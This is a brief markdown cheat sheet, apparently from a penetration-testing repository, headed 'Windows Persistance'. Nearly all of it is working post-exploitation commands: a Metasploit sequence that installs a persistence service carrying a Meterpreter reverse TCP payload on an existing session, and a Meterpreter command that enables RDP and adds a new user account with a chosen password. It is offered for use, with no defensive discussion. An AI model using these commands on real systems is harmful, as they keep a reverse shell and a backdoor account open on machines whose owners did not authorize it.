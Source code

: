 # Windows Persistance

--------------------------------------------------------------------

## msfcosole - Admin Meterpreter

```
search platform:windows persistence
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set LPORT <PORT>
set SESSION 1
run
```

--------------------------------------------------------------------

## Meterpreter - Enable RDP

```
run getgui -e -u <NEWUSER> -p <PW>
```

--------------------------------------------------------------------